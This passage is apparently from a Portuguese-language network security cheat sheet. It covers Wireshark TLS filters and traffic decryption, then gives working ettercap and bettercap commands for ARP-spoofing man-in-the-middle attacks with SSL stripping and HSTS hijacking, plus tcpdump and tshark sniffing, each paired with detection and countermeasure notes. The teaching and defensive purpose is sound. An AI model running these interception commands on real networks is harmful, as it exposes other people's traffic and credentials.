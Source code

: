 ```bash
tls.handshake.version == 0x0303  # TLS 1.2
tls.handshake.version == 0x0304  # TLS 1.3
tls.handshake.ciphersuite
tls.alert_message

# Descriptografar TLS no Wireshark (requer SSLKEYLOGFILE)
# Firefox/Chrome: export SSLKEYLOGFILE=/tmp/sslkeys.log
# Wireshark: Edit > Preferences > Protocols > TLS > (Pre)-Master-Secret log filename
```

---

## Vulnerabilidades e Ataques

### Ataques de Rede Comuns

#### 1. Man-in-the-Middle (MitM)

```bash
# ARP Spoofing + Sniffing
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# Bettercap (moderno)
sudo bettercap -iface eth0
> net.probe on
> net.recon on
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
> net.sniff on
> http.proxy on
> https.proxy on
> set https.proxy.sslstrip true
> hstshijack/hstshijack

# Detecção:
# - Verificar ARP cache (multiple MACs for same IP)
# - Certificate warnings
# - Usar HSTS
# - Certificate Pinning
```

#### 2. Packet Sniffing

```bash
# tcpdump
sudo tcpdump -i eth0 -w capture.pcap

# Wireshark/tshark
sudo wireshark
tshark -i eth0 -f "tcp port 80"

# Contramedida:
# - Usar criptografia (TLS, VPN)
# - Switch port security
# - Detecção de modo promíscuo
```
